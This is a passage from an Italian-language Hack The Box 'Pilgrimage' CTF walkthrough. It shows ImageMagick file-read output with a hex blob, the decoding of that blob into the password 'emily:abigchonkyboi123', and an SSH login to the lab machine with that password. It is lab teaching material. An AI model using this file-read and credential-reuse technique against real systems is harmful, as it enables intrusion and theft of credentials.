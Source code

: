 ```bash
┌──(root㉿kali)-[/home/kali/htb/pilgrimage/imagemagick-lfi-poc]
└─# identify -verbose 64a3bae5c854e.png
Image: 64a3bae5c854e.png
  Format: PNG (Portable Network Graphics)
  Geometry: 128x128
  Class: DirectClass
  Type: true color
  Depth: 8 bits-per-pixel component

...<snip>...

000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000180103172d65
6d696c796162696763686f6e6b79626f693132330a000000010ff7000ff7000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000000000000000000000000000

...<snip>...

```

Decodifichiamo sempre la il codice esadecimale e otteniamo quella che sembra essere un password:
emilyabigchonkyboi123

Abbiamo le nostre credianziali
emily:abigchonkyboi123

Ci colleghiamo via ssh

```bash

┌──(root㉿kali)-[/home/kali/htb/pilgrimage/imagemagick-lfi-poc]
└─# ssh emily@10.10.11.219
emily@10.10.11.219's password:
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jul  4 20:50:21 2023 from 10.10.14.9
emily@pilgrimage:~$ id
uid=1000(emily) gid=1000(emily) groups=1000(emily)
emily@pilgrimage:~$

```
